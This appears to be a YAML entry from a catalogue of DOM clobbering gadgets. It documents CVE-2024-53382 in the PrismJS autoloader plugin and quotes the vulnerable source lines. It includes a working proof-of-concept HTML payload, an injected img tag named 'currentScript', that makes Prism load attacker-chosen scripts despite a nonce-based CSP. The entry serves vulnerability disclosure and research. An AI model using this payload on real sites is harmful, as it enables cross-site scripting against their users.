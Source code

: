 ```yaml
---
description: Prism is a lightweight, robust, and elegant syntax highlighting library. It's a spin-off project from Dabblet.
github: PrismJS/prism
gadgets:
  ≤1.29.0:
    cve: CVE-2024-53382
    authors:
      - github:jackfromeast
      - github:ishmeals
    tags:
      - chrome-browser
      - safari-browser
      - img-tag
      - name-attr
      - data-attr
      - strict-dynamic-csp
      - before-lib-load
    pocs:
      - description: The [prism-autoloader](https://prismjs.com/plugins/autoloader/) plugin was using `document.currentScript` as the base url for dynamically loading other dependencies.
        code: |
          <!-- user input -->
          <img name="currentScript" src="[current-location]/assets/xss/index.js">

          <script nonce="secret" src="https://cdnjs.cloudflare.com/ajax/libs/prism/1.29.0/components/prism-core.js"></script>
          <script nonce="secret" src="https://cdnjs.cloudflare.com/ajax/libs/prism/1.29.0/plugins/autoloader/prism-autoloader.js"></script>
          <pre><code class="language-css">p { color: red }</code></pre>
    more-info: |
      **Root Cause**

      Source: <a target="_blank" href="https://github.com/PrismJS/prism/blob/59e5a3471377057de1f401ba38337aca27b80e03/components/prism-core.js#L221">https://github.com/PrismJS/prism/blob/59e5a3471377057de1f401ba38337aca27b80e03/components/prism-core.js#L221</a>

      ```javascript
      currentScript: function () {
        if (typeof document === 'undefined') {
          return null;
        }
        if ('currentScript' in document && 1 < 2 /* hack to trip TS' flow analysis */) {
          return /** @type {any} */ (document.currentScript);
        }
      ```

      Source: <a target="_blank" href="https://github.com/PrismJS/prism/blob/59e5a3471377057de1f401ba38337aca27b80e03/plugins/autoloader/prism-autoloader.js#L297">https://github.com/PrismJS/prism/blob/59e5a3471377057de1f401ba38337aca27b80e03/plugins/autoloader/prism-autoloader.js#L297</a>

      ```javascript
      var script = Prism.util.currentScript();
      if (script) {
        var autoloaderFile = /\bplugins\/autoloader\/prism-autoloader\.(?:min\.)?js(?:\?[^\r\n/]*)?$/i;
        var prismFile = /(^|\/)[\w-]+\.(?:min\.)?js(?:\?[^\r\n/]*)?$/i;

        var autoloaderPath = script.getAttribute('data-autoloader-path');
        if (autoloaderPath != null) {
          // data-autoloader-path is set, so just use it
          languages_path = autoloaderPath.trim().replace(/\/?$/, '/');
        } else {
          var src = script.src;
          if (autoloaderFile.test(src)) {
            // the script is the original autoloader script in the usual Prism project structure
            languages_path = src.replace(autoloaderFile, 'components/');
          } else if (prismFile.test(src)) {
            // the script is part of a bundle like a custom prism.js from the download page
            languages_path = src.replace(prismFile, '$1components/');
          }
        }
      }
      ```
    links:
      - https://github.com/advisories/GHSA-x7hr-w5r2-h6wg
      - https://gist.github.com/jackfromeast/aeb128e44f05f95828a1a824708df660
      - https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/prism.md
      - https://jackfromeast.github.io/assets/DOMinoEffect.pdf
---
```

